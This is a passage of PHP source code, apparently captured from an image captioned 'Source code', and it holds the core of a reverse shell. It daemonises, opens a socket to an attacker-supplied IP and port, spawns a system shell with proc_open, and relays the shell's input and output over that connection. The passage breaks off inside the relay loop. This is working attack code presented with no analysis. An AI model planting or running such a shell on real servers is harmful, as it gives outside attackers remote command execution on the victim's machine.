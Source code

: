 ```php
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
```